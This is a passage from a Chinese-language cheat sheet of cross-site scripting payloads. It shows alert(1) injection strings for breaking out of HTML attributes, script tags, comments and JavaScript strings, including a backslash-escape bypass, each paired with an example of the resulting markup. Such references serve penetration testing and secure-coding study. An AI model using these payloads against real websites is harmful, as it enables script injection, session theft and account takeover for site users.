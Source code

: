 示例3
```html
<a href="https://target.com/1?status=example">1</a>
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

示例4
```html
<script>
    var sitekey = 'example';
</script>

<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```

**通过注释转义的**
```html
--><script>alert(1)</script>
<!-- --><script>alert(1)</script> -->
```

**在 script 中**
```js
'-alert(1)-'
'/alert(1)//
```

示例
```html
<script>
    var sitekey = 'example';
</script>

<script>
    var sitekey = ''-alert(1)-'';
</script>
```

**在 script 中,但输出在字符串分隔值内，引号被反斜杠转义**
```js
\'alert(1)//
```

示例
```html
<script>
    var sitekey = 'example';
</script>

<!-- 使用 -alert(1)- 的结果 -->
<script>
    var sitekey = '\'-alert(1)-\'';
</script>

<!-- 绕过反斜杠转义 -->
<script>
    var sitekey = '\\'alert(1)//';
</script>
```
